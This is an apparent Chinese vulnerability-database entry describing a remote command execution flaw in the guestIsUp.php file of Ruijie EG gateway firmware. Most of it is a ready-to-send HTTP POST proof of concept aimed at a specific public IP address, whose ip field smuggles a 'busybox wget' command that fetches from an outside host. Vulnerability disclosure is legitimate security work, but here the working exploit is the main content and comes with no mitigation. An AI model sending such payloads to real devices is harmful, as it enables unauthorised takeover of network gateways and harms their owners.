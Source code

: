 ```yaml
---
title: '锐捷易网关 远程命令执行'
date: Sat, 19 Sep 2020 07:26:48 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


测试固件版本为 EG\_RGOS11.9(4)B11P1\_EG3200\_install

guest\_auth 中的 guestIsUp.php 文件存在问题

可以明显看出这里可以存在拼接达到命令执行的效果。 

构造相应的 poc 可达到命令执行

#### POC

```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 120.35.11.141:9999
Connection: keep-alive
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://120.35.11.141:9999
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://120.35.11.141:9999/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

mac=1&ip='busybox wget xxxxx:8888' 
```